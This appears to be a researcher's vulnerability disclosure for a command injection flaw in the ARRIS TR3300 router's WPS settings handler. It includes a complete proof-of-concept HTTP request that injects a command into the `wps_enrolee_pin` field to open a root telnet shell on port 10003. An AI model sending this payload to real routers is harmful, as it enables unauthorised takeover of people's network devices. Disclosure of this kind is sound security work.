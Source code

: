 # ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `wps setting` function, `wps_enrolee_pin` is directly passed by the attacker, so we can control the `wps_enrolee_pin` to attack the OS.

First, accept and process the content of the field(`wps_sta_pin`), and then call the function `nvram_set `to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `rc_apps` binary:

As you can see here, in `sub_4051B4`  function, the initial input will be extracted.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

Eventually, in `sub_402614` function, the initial input will cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## PoC

We set `wps_enrolee_pin` as **`/usr/sbin/utelnetd -l /bin/sh -p 10003`**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 211
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/setup.cgi
Upgrade-Insecure-Requests: 1

band_select=1&wls_wps_enabled=&wps_enrolee_pin=`/usr/sbin/utelnetd -l /bin/sh -p 10003`&h_band_select=1&h_wls_wps_enabled=enable&h_wls_wps_5g_enabled=disable&h_wps_action=2&todo=wps_action&this_file=wls_wps.html&next_file=wls_wps.html&message=
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>
